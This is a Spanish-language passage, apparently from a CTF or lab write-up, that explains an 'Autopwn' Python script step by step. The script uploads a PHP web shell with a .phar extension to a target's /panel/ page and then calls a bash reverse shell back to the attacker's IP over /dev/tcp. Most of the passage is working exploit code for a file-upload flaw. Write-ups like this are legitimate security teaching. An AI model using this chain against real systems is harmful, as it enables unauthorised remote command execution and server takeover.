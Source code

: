 Luego, vamos a definir los argumentos que recibirá el script, en este caso será la ip de la máquina víctima:
```py
if len(sys.argv) < 3:
    print(f'[!] Uso: python3 {sys.argv[0]} "Your_ip" "Target_IP"\n' )
    sys.exit(1)
```

El siguiente paso corresponde a definir las variables globales que utilizaremos, en este caso las url y una barra de progreso:

```py
url = f"http://{sys.argv[2]}/panel/"
url_up = f"http://{sys.argv[2]}/uploads/"
progress = log.progress("Autopwn")

s = requests.Session()
```

Tenemos la primera función, que se encarga de subir el archivo php malicioso a la web:

```py
def file_upload():

        payload = """  <?php echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>"; ?> """ 

        data = {
                'submit' : "Upload"
            }

        files  = {'fileUpload':(f'shell.phar',payload),
                    
                }
        progress.status('Subiendo archivo php malicioso')
        sleep(2)
        r = s.post(url,files=files,data=data)
```

Observamos que es la misma estructura que en el script de la explotación, sin embargo, ya no es una lista, pues como ya sabemos el tipo de extensión permitida, de la misma manera, pudo ser la extensión phtml.

Luego, tenemos la función encarga de enviar la conexión reversa:

```py
def conection():
    url_reverse = url_up + f"shell.phar?cmd=bash -c 'bash -i >%26 /dev/tcp/{sys.argv[1]}/1234 0>%261'"
    r = s.get(url_reverse)
```

Esta corresponde a una versión alternativa para obtener la shell reversa, claramente es más sencillo que abrir el servidor en python y todo el tema, sin embargo, este método no siempre tiene resultados, hay veces que simplemente no funciona, por lo tanto, es mejor optar por las soluciones que normalmente funcionan en todos los sistemas, a pesar de ello, se utilizó en el código para variar y hacerlo más sencillo.
